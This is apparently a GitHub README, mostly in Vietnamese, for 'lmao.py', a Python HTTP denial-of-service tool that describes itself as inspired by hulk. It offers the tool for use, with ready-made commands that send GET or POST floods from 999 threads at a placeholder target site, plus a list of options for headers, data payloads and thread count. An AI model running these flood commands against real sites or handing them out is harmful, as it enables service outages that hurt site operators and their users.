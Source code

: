 # lmao.py
Công cụ DoS cho các yêu cầu HTTP (lấy cảm hứng từ hulk nhưng có nhiều chức năng hơn) được viết bằng Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Ví Dụ
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Cách sử dụng
Nếu bạn chọn <g> thì sẽ là : python doser.py -t 999 -g 'URL'
Nếu bạn chọn <p> thì sẽ là : python doser.py -t 999 -p 'URL'
Nếu bạn chọn <d> thì sẽ là : python doser.py -t 999 -d 'URL'

Các tùy chọn :

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# BY:
Duong Quang Truong :)
